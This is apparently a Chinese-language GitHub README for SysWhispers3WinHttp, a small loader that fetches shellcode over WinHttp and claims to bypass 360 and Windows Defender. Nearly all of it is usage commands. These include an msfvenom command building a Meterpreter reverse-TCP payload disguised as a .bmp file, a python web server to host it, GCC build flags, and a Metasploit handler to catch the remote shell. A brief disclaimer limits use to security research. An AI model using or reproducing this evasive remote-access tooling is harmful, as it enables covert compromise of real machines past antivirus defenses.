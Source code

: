 # SysWhispers3WinHttp
SysWhispers3WinHttp 在SysWhispers3基础上增添WinHttp分离加载并使用GCC进行编译，文件大小为14KB，可绕过360核晶防护与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless的shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.104 lport=4444 -f raw -o test.bmp

// 2. 使用python3开启Web服务（或使用CobaltStrike之Scripted Web Delivery功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c 第40行IP地址并使用32位GCC进行编译
gcc .\syscalls.c .\SysWhispers3WinHttp.c -o .\SysWhispers3WinHttp.exe -masm=intel -fpermissive -w -s -lwinhttp
```

注：32位GCC下载地址为https://master.dl.sourceforge.net/project/mingw-w64/Toolchains%20targetting%20Win32/Personal%20Builds/mingw-builds/6.4.0/threads-win32/sjlj/i686-6.4.0-release-win32-sjlj-rt_v5-rev0.7z?viasf=1


## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```







